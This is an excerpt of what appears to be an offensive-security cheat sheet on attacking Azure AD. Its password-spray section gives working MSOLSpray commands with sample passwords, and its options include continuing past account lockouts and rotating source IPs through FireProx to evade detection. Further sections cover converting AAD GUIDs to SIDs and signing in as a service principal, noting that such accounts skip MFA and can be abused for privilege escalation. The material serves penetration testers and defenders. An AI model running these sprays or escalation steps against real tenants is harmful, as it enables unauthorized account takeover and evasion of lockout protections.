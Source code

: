 ## Azure AD - Password Spray

> Default lockout policy of 10 failed attempts, locking out an account for 60 seconds

```powershell
git clone https://github.com/dafthack/MSOLSpray
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020
Invoke-MSOLSpray -UserList .\users.txt -Password d0ntSprayme!

# UserList  - UserList file filled with usernames one-per-line in the format "user@domain.com"
# Password  - A single password that will be used to perform the password spray.
# OutFile   - A file to output valid results to.
# Force     - Forces the spray to continue and not stop when multiple account lockouts are detected.
# URL       - The URL to spray against. Potentially useful if pointing at an API Gateway URL generated with something like FireProx to randomize the IP address you are authenticating from.
```

## Azure AD - Convert GUID to SID

The user's AAD id is translated to SID by concatenating `"S-1–12–1-"` to the decimal representation of each section of the AAD Id.

```powershell
GUID: [base16(a1)]-[base16(a2)]-[ base16(a3)]-[base16(a4)]
SID: S-1–12–1-[base10(a1)]-[ base10(a2)]-[ base10(a3)]-[ base10(a4)]
```

For example, the representation of `6aa89ecb-1f8f-4d92–810d-b0dce30b6c82` is `S-1–12–1–1789435595–1301421967–3702525313–2188119011`

## Azure AD - Sign in with a service principal

https://docs.microsoft.com/en-us/powershell/azure/authenticate-azureps?view=azps-3.3.0&viewFallbackFrom=azurermps-6.5.0#sign-in-with-a-service-principal

:warning: Service Principal accounts do not require MFA. Anyone with control over Service Principals can assign credentials to them and potentially escalate privileges.

* Password based authentication

    ```powershell
    # Use the service principal ID for the username
    $pscredential = Get-Credential
    Connect-AzAccount -ServicePrincipal -Credential $pscredential -Tenant $tenantId
    ```
* Certificate based authentication

    ```powershell
    Connect-AzAccount -ApplicationId $appId -Tenant $tenantId -CertificateThumbprint <thumbprint>
    ```
